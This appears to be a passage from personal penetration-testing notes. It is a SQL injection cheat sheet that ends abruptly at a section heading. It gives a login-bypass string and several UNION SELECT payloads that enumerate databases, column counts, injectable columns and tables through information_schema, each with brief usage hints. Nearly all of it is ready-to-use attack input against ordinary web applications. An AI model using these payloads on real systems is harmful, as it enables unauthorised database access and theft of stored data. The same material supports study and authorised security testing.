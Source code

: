 `' OR 1=1 -- `

- Note the space at the end. The `--` is for commenting out the rest of the legitimate line.

### 16.1.2	DATABASE ENUMERATION

#### 16.1.2.1	ENUMERATE DATABASES

##### 16.1.2.1.1	-

```
' UNION SELECT schema_name, NULL, NULL,... FROM information_schema.schemata --
```

##### 16.1.2.1.2	-

```
' UNION SELECT DATABASE(),2,...N --
```

- Enumerates only current database

#### 16.1.2.2	ENUMERATE NUMBER OF COLUMNS IN CURRENT SELECT STATEMENT

```
james' ORDER BY <N> --
```

- Increment `<N>` until it returns an invalid response.

#### 16.1.2.3	ENUMERATE VULNERABLE COLUMNS

```
james' UNION SELECT 1,..,N --
```

Returns vulnerable columns. Not sure how this works exactly?

#### 16.1.2.4	ENUMERATE TABLES

##### 16.1.2.4.1	-

```
james' UNION SELECT 1,..,N-1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE() --
```

##### 16.1.2.4.2	-

```
' UNION SELECT table_name, NUll, NUll,... FROM information_schema.tables WHERE table_schema='<DATABASE NAME>' --
```

#### 16.1.2.5	ENUMERATE COLUMNS

##### 16.1.2.5.1	-
